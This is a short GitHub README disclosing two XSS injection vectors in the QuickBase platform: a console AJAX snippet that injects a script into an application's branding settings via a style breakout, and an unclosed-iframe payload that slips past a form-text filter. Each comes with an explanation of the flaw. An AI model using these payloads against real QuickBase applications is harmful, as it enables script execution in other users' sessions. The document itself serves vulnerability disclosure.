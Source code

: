 #QuickBase XSS
This repository documents XSS injection vectors I've discovered in the QuickBase platform (http://www.quickbase.com).

##Branding Page Injection
This one requires admin privileges, so it isn't a major vulnerability. Why, then, is it interesting? *It allows arbitrary code to run application wide!*

#####How does it work?
Run the JavaScript below in your developer console while on the dashboard of the application you want to affect. It will issue a POST to the SaveAppSettingsBrandGuide action.

```
var DBID = "";
var REALM = "";
var SCRIPT = "alert('HELLO!');";
var TOKEN = $("[name=PageToken]").val();

$.ajax({
  url: "https://" + REALM + ".quickbase.com/db/" + DBID + "?a=SaveAppSettingsBrandGuide",
  type: "POST",
  data: {
    uiCustomTextColor: "</style><script>" + script + "</script><style>",
    PageToken: TOKEN,
    CustomHeader: "on",
    uiCustomHeaderOptions: "iBasic",
    apply: "Save"
  }
});
```

#####Why does it work?
QuickBase engineers only sanitized input client side on a value that gets inserted into every page in the application. Doh!

##Form Text Element Injection
Need to run some custom JavaScript on a particular QuickBase form? No problem!

#####How does it work?
Paste the snippet below into a QuickBase form text element and you're all set.

```
<iframe src="javascript: alert('HELLO!')" style="display: none"
```

#####Why does it work?
This one works for a couple of reasons:
- Omitting the closing tag on the iframe element allows us to skirt the regex that QuickBase is presumably using to filter out unwanted text. 
- Modern day rendering engines make an attempt to fix mistakes like unclosed tags.
